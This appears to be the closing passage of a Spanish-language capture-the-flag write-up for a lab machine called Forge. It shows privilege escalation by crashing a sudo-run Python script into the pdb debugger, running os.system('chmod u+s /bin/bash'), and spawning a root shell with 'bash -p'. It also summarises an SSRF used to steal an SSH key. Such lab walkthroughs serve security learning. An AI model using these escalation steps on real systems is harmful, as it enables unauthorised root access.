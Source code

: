 ##### 4º Paso - Asignar permisos SUID a /bin/bash

Para obtener acceso como root, una de las formas que se me ocurre es dar permisos SUID a `/bin/bash`

Haremos esto de la siguiente forma:

```bash
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:49345
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py                                                                                                                            Listening on localhost:17131
invalid literal for int() with base 10: b''
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system("chmod u+s /bin/bash")
```
---

Ahora para acceder como root, saldremos de la consola interactiva de pdb e introduciremos el siguiente comando:

> `bash -p`

```bash
user@forge:~$ bash -p
bash-5.0# whoami
root
```
A partir de aquí ya podremos ver la flag `root.txt` en el directorio `/root/root.txt`

```bash
bash-5.0# head --bytes 12 /root/root.txt | xargs
413d017e947d
```
# Conclusión

En esta máquina hemos explotado un **SSRF** para conseguir una **clave privada de SSH** para obtener acceso inicial. Luego de esto, nos aprovechamos de un script mal planteado y con permisos inadecuados el cual podíamos ejecutar como usuario **root** para escalar privilegios.












